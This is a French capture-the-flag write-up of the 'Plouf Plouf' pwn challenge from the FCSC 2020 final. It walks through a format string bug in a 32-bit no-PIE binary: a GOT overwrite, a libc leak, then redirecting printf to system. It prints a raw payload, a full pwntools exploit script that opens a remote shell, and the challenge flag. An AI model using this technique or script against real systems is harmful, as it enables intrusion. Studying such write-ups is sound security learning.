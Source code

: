 ```yaml
---
title: "Plouf Plouf"
subtitle: "Challenge de Pwn de la finale du FCSC 2020"
published: true
author: "Bdenneu"
ctf: "FCSC_FINALE"
annee: "2020"
---
```


# L'énoncé

Le jeu du caillou, vous connaissez ?

Service : nc ploufplouf.fcsc 4000

SHA256(plouf) = a3f5f3dafdeb9e6e9d8aad2319d69ac62d379d229c64c70a0e46ff6ce9470aa6.

SHA256(libc-2.28.so) = 106dd808259c84d6a271a5c894c73e8486c46b70f35291b025397a04087b893b.

[plouf](/writeup-scripts/2019-2020/FCSC_FINALE/plouf)

[libc-2.28.so](/writeup-scripts/2019-2020/FCSC_FINALE/libc-2.28.so)

# Trouvons la faille!

Le programme de base demande un nom, et demande de deviner des nombres avant de se terminer.

![](/assets/images/FCSCFINALE2020/Plouf/1.png)

Pas de buffer overflows ici, mais seulement UNE format string au moment de l'affichage du nom.

![](/assets/images/FCSCFINALE2020/Plouf/2.png)

Pas de protection pie, donc les adresses des relocs (adresses où sont les fonctions sont stockées) sont fixes.On va donc réecrire l'adresse de scanf dans la mémoire pour mettre main à la place, pour pouvoir faire autant de format string que l'on veut.

![](/assets/images/FCSCFINALE2020/Plouf/3.png)

Le buffer est à la position 4. Le début de l'adresse sera bien 0x0804 grace à no-pie, donc on va utiliser hn.

![](/assets/images/FCSCFINALE2020/Plouf/4.png)

On veut écrire 0x9212 = 37394 à l'adresse 0x0804c03c. On ajoute du padding avec des A pour que l'addresse soit au bon endroit.

```
%.37394x%11$hnAA\x3c\xc0\x04\x08
```

À partir de là, on a droit de manière illimité aux format strings.

![](/assets/images/FCSCFINALE2020/Plouf/5.png)

On va leak la libc maintenant.

Les premiers éléments de la stack affiché sont le nombre de caractères lus (on reconnait le 0x80) par fgets puis l'adresse de stdin.

![](/assets/images/FCSCFINALE2020/Plouf/6.png)

![](/assets/images/FCSCFINALE2020/Plouf/7.png)

On récupérer l'adresse de stdin dans la libc et l'adresse de system:

![](/assets/images/FCSCFINALE2020/Plouf/8.png)

stdin: 0x001da5c0

system: 0x0003e9e0

Enfin, on réecrit l'adresse de system à l'adresse de reloc.printf.

```python
from pwn import *
import re
import binascii

r = remote("ploufplouf.fcsc", 4000)
r.recv()

#Ecrire main à la place de scanf
first = 0x9212
payload = b'%.'+b"%d"%(first)+b'x%11$hn'+b'AA'
payload += p32(0x0804c03c)
r.sendline(payload)
data = r.recvuntil('Quel est ton nom ?\n>>>')

#Leak l'adresse de stdin
r.sendline(b'%2$p')
data = r.recvuntil('>>>')
leaked_stdin = re.findall(b'Bonjour 0x(.*?)\n', data)[0]
leaked_stdin = int(leaked_stdin,16)

reloc_printf = 0x0804c00c
libc_system = 0x0003e9e0
libc_stdin = 0x001da5c0
libc_start = leaked_stdin - libc_stdin
wanted = libc_start+libc_system

#Replacer printf par system
first = (wanted & 0xffff) -2
second = (wanted >> 16) - first -2
payload = b"AA" #padding pour les blocs
payload += b"%."+b"%d"%(first) +b"x%15$hn"
payload += b"%."+b"%d"%(second)+b"x%16$hn"
payload += b"A"*(4-len(payload)%4)*(len(payload) % 4 != 0) #pour aligner les addresses
payload += p32(reloc_printf)
payload += p32(reloc_printf+2)

r.sendline(payload)
r.recvuntil('nom ?')
r.sendline('sh')
r.recvuntil('nom ?')
print("Enjoy your shell!")
r.interactive()
```

On obtient alors un shell sur la machine!

![](/assets/images/FCSCFINALE2020/Plouf/9.png)

# Flag

FCSC{1f0ab477d3ec9b50c0e1259d8e18f10d47c9c046041ef5fe344c30e0da8dca6c}


